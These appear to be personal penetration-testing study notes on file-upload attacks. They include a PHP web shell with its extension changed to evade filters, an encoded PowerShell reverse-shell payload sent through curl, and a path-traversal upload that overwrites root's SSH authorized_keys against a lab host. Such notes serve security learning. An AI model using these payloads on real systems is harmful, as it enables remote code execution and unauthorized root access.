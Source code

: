 # Using Executable Files

3 main types. First is uploading uploading a malicious script so it is executed on the web app. Second is combining it with another vulnerability like directory traversal to execute the file. Third is dependent on user interaction like uploading a .docx file with malicious macros.

If filtered, can change the file uploaded a little like `simple-backdoor.pHP`. We can check it works by using curl and `curl http://192.168.50.189/meteor/uploads/simple-backdoor.pHP?cmd=dir`. Since we know, it is a Windows machine, we can use powershell to generate a remote shell. This is the [[https://gist.github.com/egre55/c058744a4240af6515eb32b2d33fbed3|one liner]]. After saving the command by doing `$Text = "[insert one liner here]"`, we can do:

```
PS> $Bytes = [System.Text.Encoding]::Unicode.GetBytes($Text)

PS> $EncodedText =[Convert]::ToBase64String($Bytes)

PS> $EncodedText
JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0
...
AYgB5AHQAZQAuAEwAZQBuAGcAdABoACkAOwAkAHMAdAByAGUAYQBtAC4ARgBsAHUAcwBoACgAKQB9ADsAJABjAGwAaQBlAG4AdAAuAEMAbABvAHMAZQAoACkA


PS> exit
```

Then we do the curl command but replace the command with `curl http://192.168.50.189/meteor/uploads/simple-backdoor.pHP?cmd=powershell%20-enc%20JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AYgB5AHQAZQAuAEwAZQBuAGcAdABoACkAOwAkAHMAdAByAGUAYQBtAC4ARgBsAHUAcwBoACgAKQB9ADsAJABjAGwAaQBlAG4AdAAuAEMAbABvAHMAZQAoACkA`

*Don't forget to start a listener and edit the powershell one-liner with the proper IP and port number.*

# Using Non-Executable Files

Upload file but can't be exploited. We will use Burp to exploit in cases like this.

![[Pasted image 20250703172246.png]]
*We send the POST request to upload the file to the repeater then upload but with relative file path.*

We can do this and even overwrite certain files:
1. `ssh-keygen`
2. `cat fileup.pub (or wtv you name your pub key) > authorized_keys`
3. We upload this file using burp but to `../../../../../../../root/.ssh/authorized_keys`
4. `ssh -i fileup -p 2222 root@domainname.com`

